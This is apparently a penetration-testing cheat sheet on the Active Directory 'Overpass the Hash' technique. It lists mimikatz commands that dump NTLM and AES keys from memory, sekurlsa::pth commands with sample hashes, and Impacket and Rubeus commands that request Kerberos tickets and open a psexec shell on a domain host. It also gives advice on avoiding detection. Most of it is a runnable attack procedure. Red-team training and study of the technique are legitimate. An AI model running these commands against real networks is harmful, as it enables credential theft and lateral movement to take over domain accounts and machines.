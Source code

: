 # Overpass the Hash /                Pass the Key

This attack aims to **use the user NTLM hash to request Kerberos tickets**, as an alternative to the common Pass The Hash over NTLM protocol. Therefore, this could be especially **useful in networks where NTLM protocol is disabled** and only **Kerberos is allowed** as authentication protocol.

In the case of over-pass-hash, we are generating the things that would get us that original TGT in memory on the windows client then fronting up to the domain controller for a service ticket to the thing we want access to, and automatically getting the TGT back as part of the exchange so that we can go on and request all access we want to other things.

{% hint style="info" %}
In order to perform this attack, the **NTLM hash (or password) of the target user account is needed**. Thus, once a user hash is obtained, a TGT can be requested for that account. Finally, it is possible to **access** any service or machine **where the user account has permissions**.
{% endhint %}

## <mark style="color:red;">Grab the Target User Hash</mark>

In the target machine run this and dump the NTLM hash of the 'target-user' account:

```
privilege::debug
sekurlsa::ekeys
Sekurlsa::logonpasswords
```

With the help of ekeys you will able to fetch all keys NTLM (RC4), AES128, AES256 key







## <mark style="color:red;">Overpass the Hash</mark>

So with the help of sekurlsa::pth command we try to use ase256 key or aes128 for Kerberos ticket, it is difficult to detect because it is the more common and secure key used in encryption.

Using our new hash, we issue the command:

```
sekurlsa::pth /user:target-user /domain:megabank.local /ntlm:89551acff8895768e489bb3054af94fd

# example
sekurlsa::pth /user:Administrator /domain:ignite.local /aes256:9c83452b5dcdca4b0bae7e89407c700bed3153c31dca06a8d7be29d98e13764c
sekurlsa::pth /user:Administrator /domain:ignite.local /aes128:b5c9a38d8629e87f5da0a0ff2c67f84c
```

#### If you will use NTLM (RC4), ASE128, ASE256 simultaneously for injecting into Kerberos ticket, this step is more secure and undetectable in the network.

```
sekurlsa::pth /user:Administrator /domain:igntie.local /ntlm:a29f7623fd11550def0192de9246f46b /aes128:b5c9a38d8629e87f5da0a0ff2c67f84c /aes256:9c83452b5dcdca4b0bae7e89407c700bed3153c31dca06a8d7be29d98e13764c
sekurlsa::pth /user:Administrator /domain:igntie.local /ntlm:a29f7623fd11550def0192de9246f46b
```

#### We should be able to now move from our shell that was running as whomever , to a shell with 'target-user' credentials.

we can use getTGT.py script from impacket toolkit as well:

### <mark style="color:orange;">Impacket</mark>

```
python getTGT.py jurassic.park/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache
python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass
```

You can **specify** `-aesKey [AES key]` to specify to use **AES256**. You can also use the ticket with other tools like: as smbexec.py or wmiexec.py

```
python getTGT.py -dc-ip 192.168.1.105 -hashes :32196b56ffe6f45e294117b91a83bf38 ignite.local/Administrator
```

with the help of above command, you will be able to request Kerberos authorized ticket in the form of ccache whereas with the help of the following command you will be able to inject the ticket to access the resource.

```
export KRB5CCNAME=Administrator.ccache; psexec.py -dc-ip 192.168.1.105 -target-ip 192.168.1.105 -no-pass -k ignite.local/Administrator@WIN-S0V7KMTVLD2.ignite.local
```

### <mark style="color:orange;">Rubeus</mark>

{% embed url="https://github.com/GhostPack/Rubeus" %}

```
Rubeus.exe asktgt /domain:igntie.local /user:Administrator /rc4: 32196b56ffe6f45e294117b91a83bf38 /ptt
```
